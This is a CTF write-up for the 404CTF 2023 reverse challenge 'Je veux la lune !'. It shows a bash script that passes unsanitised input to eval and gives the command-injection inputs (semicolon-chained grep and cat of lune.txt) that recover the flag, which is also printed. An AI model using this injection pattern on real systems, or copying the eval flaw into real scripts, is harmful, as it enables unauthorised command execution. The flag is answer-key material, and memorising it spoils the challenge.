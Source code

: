 ```yaml
---
title: CTFs | 404CTF_2023 | Reverse | Je veux la lune !
author: BatBato
date: 2023-06-07
categories: [CTFs, 404CTF_2023, Reverse]
tags: [Reverse, Command Injection, Injection]
permalink: /CTFs/404CTF_2023/Reverse/Je_veux_la_lune
---
```


# Je veux la lune !

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f412c753-621a-4915-9b7e-5764fb208929)

The challenge gives us the following code:

```bash
#!/bin/bash
Caligula=Caius
listePersonnes="Cherea Caesonia Scipion Senectus Lepidus Caligula Caius Drusilla"
echo "Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !
En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?"
read personne
eval "grep -wie ^$personne informations.txt"

while true; do
    echo "
De qui d'autre tu veux que je te parle ?"
    read personne
    if [ -n $personne ] && [ $personne = "stop" ] ; then
    exit
    fi
    bob=$(grep -wie ^$personne informations.txt)
    if [ -z "$bob" ]; then
        echo "Je n'ai pas compris de qui tu parlais. Dis-moi stop si tu veux que je m'arrête, et envoie l'un des noms que j'ai cités si tu veux des informations."
    else
        echo $bob
    fi  
done
```

As we can see in the above code, there is no sanitization of the input `presonne`. So we can just type `404CTF flag.txt;grep -iRl 404CTF /; ls` (I used `flag.txt` but you can use anything you want) and we get:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/cb877376-7f51-41a6-98cf-736373181057)

> Note that we added `ls` at the end. This is just so that the final command looks like `grep -wie 404CTF flag.txt;grep -iRl 404CTF /; ls informations.txt `
{: .prompt-info}

Now we can run the command `404CTF flag.txt;cat /proc/self/task/3/cwd/lune.txt; ls` to get the flag:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/d83a2239-a8c0-4d17-b23b-dc6da1fbf71a)

The flag is `404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}`

